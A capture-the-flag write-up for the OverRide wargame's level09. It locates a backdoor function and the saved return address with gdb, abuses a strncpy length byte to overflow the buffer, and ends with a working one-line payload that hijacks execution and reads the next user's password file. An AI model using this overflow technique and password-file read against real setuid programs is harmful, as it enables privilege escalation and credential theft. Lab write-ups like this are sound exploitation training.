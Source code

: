 ### step 1: Decompile with Ghydra

- Binary in 64-bits

```
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

- Sources are available in `source.c`


### step 2: Code Analysis

- find secret backdoor function address : `0x000055555555488c`
```
gdb level09
info functions
```
- find eip of handle_msg : `0x7fffffffe5c8`
 
```
gdb level09
b handle_msg
 r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
```

- find address of ref : 

Set breakpoint before the call of set_msg or set_username in handle_msg because the ref is passed as an argument to these functions so we can find the address in rax

```
gdb level09
start
disas handle_msg
b *0x0000555555554910
c
(gdb) x $rax
0x7fffffffe500:	0x0000000a
```

- find offset between ref and eip address
`0x7fffffffe5c8 - 0x7fffffffe500 = 200`

set_username
ecrit de ref + 140 à ref + 181

set_msg
ecrit de ref à ref + 180 ?


- How to write more than 180 chars :

```c
strncpy(ref,(char *)buffer,(long)*(int *)(ref + 180));
```

The size of `strncpy` is calculated at the address `ref + 180` : We can input a tricky value with the char `\xff` that is evaluated as 255 -> The `strncpy` will copy up to 255 of our input and we will reach the 200 bytes offset of the `RIP`  



0x000055555555488c to little endian : 8c 48 55 55 55 55 00 00
\x8c\x48\x55\x55\x55\x55\x00\x00
dépasse sur message au 128 eme char dans username
final string : 
(python -c 'print("a" * 40 + "\xFF")' ; python -c 'print(200 * "b" + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; echo 'cat /home/users/end/.pass') | ./level09